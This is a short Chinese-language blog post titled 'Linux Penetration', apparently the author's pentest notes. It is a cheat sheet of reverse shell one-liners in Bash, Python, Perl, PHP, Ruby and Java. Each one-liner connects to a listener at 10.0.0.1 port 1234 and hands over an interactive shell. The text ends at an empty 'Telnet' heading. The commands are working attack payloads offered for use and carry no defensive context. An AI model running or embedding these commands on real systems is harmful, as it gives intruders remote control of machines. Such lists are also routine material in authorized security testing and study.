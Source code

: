 ```yaml
---
layout: post
title: "Linux Penetration"
description: "Hacking"
headline: 
modified: 2015-11-20
category: Hacking
tags: [Hacking]
imagefeature: 
mathjax: 
chart: 
author: Cupport
comments: true
featured: true
---
```


* 目录
{:toc}


本来是笔记本的东西 正好整理成MarkDown格式 就手抖push了一下

###反弹Shell

Bash

    bash -i >& /dev/tcp/10.0.0.1/1234 0>&1

Python

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    
PERL

    perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

PHP
    
    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Ruby

    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Java

    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()

Telnet
